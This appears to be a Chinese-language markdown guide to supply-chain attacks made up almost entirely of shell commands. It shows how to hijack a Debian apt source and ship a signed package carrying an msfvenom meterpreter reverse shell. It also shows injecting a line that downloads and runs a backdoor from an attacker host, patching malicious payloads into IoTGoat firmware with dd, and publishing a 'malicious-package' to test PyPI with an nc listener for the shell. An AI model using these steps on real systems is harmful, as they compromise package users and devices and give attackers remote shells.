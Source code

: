 ### 安装源劫持

```bash
cat /etc/apt/sources.list
echo "deb http://IP地址或域名/repo/ ./" > /etc/apt/sources.list
mkdir -p /var/www/html/repo
```


repo目录里创建一个package目录，并在该目录里创建etc和DEBIAN目录

```bash
├── package
│   ├── etc
│   │   ├── linux_shell
│   │   └── hello.py
│   └── DEBIAN
│       └── control
```

linux_shell:

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=IP地址 lport=4444 -f elf > linux_shell
```

[control](供应链攻击/control)

```bash
cd repo
dpkg-deb --build package
```

[Release](供应链攻击/Release)

```bash
apt-get install gnupg
gpg --gen-key
dpkg-scanpackages . /dev/null | gzip -9c > Packages.gz
gpg --default-key "密钥ID" -abs -o - Release > Release.gpg
gpg --default-key "密钥ID" --clearsign -o InRelease Release
gpg --export -a "密钥ID" > public.key
```

```bash
apt-key add public.key
sudo apt update && sudo apt upgrade
```

### 软件后门

[backdoor.py](供应链攻击/backdoor.py)

注入后门

```bash
import os

//替换为攻击者地址
os.system("curl -O http://IP地址或域名/backdoor.py" && python backdoor.py)
```

### 纂改硬件设备

```bash
firmware-extractor --device /dev/sdX
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f raw > malicious.bin
dd if=malicious.bin of=网卡固件 bs=1 seek=$OFFSET conv=notrunc
dd if=恶意固件 of=/dev/sdX
```

[IoTGoat](https://github.com/OWASP/IoTGoat/releases/tag/v1.0)

```bash
binwalk -ev IoTGoat-raspberry-pi2.img --run-as=root
```

[firmwalker](https://github.com/craigz28/firmwalker)

```bash
./firmwalker.sh /root/hardware/_IoTGoat-raspberry-pi2.img.extracted/squashfs-root
/etc/passwd | /etc/shadow
```

[/etc/rc.local](供应链攻击/rc.local)

```bash
cd squashfs-root
mksquashfs . ../new_filesystem.squashfs
```

```bash
binwalk IoTGoat-raspberry-pi2.img
cd _IoTGoat-raspberry-pi2.img.extracted
dd if=new_filesystem.squashfs of=../IoTGoat-raspberry-pi2.img bs=512 seek=57344 conv=notrunc
```

### 调用资源劫持

['malicious_package\__init__.py'](供应链攻击/__init__.py)

[malicious_package\malicious_module.py](供应链攻击/malicious_module.py)

[setup.py](供应链攻击/setup.py)

```bash
├── README.md
├── setup.py
├── malicious_package
│   ├── __init__.py
│   ├── malicious_module.py
```

```bash
pip install setuptools wheel
python setup.py sdist bdist_wheel
```

[test.pypi.org](https://test.pypi.org)

```bash
pip install twine
twine upload --repository testpypi dist/* --verbose
pip install -i https://test.pypi.org/simple/ malicious-package
nc -lvp 4444
```

```python
from malicious_package import exploit
exploit()
```
